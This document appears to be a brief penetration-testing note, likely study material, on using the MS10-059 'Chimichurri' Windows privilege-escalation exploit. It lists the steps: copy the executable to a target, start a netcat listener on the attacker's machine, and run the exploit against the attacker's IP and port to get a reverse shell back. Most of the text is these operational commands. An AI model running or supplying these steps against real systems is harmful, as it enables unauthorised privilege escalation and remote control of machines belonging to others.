 ```yaml
---
title: MS10-059 - ChimiChurri
updated: 2023-10-11 13:00:42Z
created: 2023-10-11 12:46:07Z
latitude: -33.86881970
longitude: 151.20929550
altitude: 0.0000
---
```


1. Copy **Chimichurri.exe** to target
2. Run a listener on hacker machine:
`nc -lnvp 666`

3. Execute Chimichurri on host:
`Chimichurri.exe <hacker IP> 666`
